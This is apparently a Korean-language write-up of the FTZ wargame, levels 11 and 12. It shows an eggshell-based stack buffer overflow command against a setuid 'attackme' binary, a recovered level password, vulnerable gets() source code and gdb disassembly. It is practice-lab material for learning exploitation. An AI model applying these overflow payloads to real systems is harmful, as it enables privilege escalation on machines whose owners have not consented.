 [level11@ftz tmp]$ gcc -o egg egg.c

[level11@ftz tmp]$ ./egg

Using address: 0xbffff9e8

Ret을 변조하여 쉘을 실행하는 방법은 여러가지가 있지만 이번에는 eggshell이라는 방식을 이용하여, exploit을 하게 되었다. eggshell 코드는 출처를 통해 복붙하였다

### 5. exploit code
./attackme `python -c 'print "A"*268+"\xe8\xf9\xff\xbf"+\x00'`
Level12 Password is "it is like this".

exploit code는 위와 같으며, little 엔디안 방식으로 eggshell 주소를 넣어 주었다.

## Level12

### 1. Directory info
-rwsr-x---    1 level13  level12     13771  3월  8  2003 attackme

-rw-r-----    1 root     level12       204  3월  8  2003 hint

drwxr-xr-x    2 root     level12      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level12      4096  2월 19 17:26 tmp

attackme 라는 바이너리를 실행하여, BoF 공격을 해야 한다.

### 2. hint
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
	char str[256];

 	setreuid( 3093, 3093 );
	printf( "문장을 입력하세요.\n" );
	gets( str );
	printf( "%s\n", str );
}
```

gets() 함수를 이용하여, BoF를 하는 방법이다.
1. eggshell의 실행 주소 파악
    * 알아야할 것 : eggshell

2. gets 함수는 문자열 뒤에 \x00 (null)을 입력 해줘야 하며, EOF(End of File)인터럽트가 발생한다.
    * EOF 개념
    * gets 함수파악

### 3. gdb attackme
```assembler
0x08048470 <main+0>:	push   ebp
0x08048471 <main+1>:	mov    ebp,esp
0x08048473 <main+3>:	sub    esp,0x108
0x08048479 <main+9>:	sub    esp,0x8
0x0804847c <main+12>:	push   0xc15
0x08048481 <main+17>:	push   0xc15
0x08048486 <main+22>:	call   0x804835c <setreuid>
0x0804848b <main+27>:	add    esp,0x10
0x0804848e <main+30>:	sub    esp,0xc
0x08048491 <main+33>:	push   0x8048538
0x08048496 <main+38>:	call   0x804834c <printf>
0x0804849b <main+43>:	add    esp,0x10
```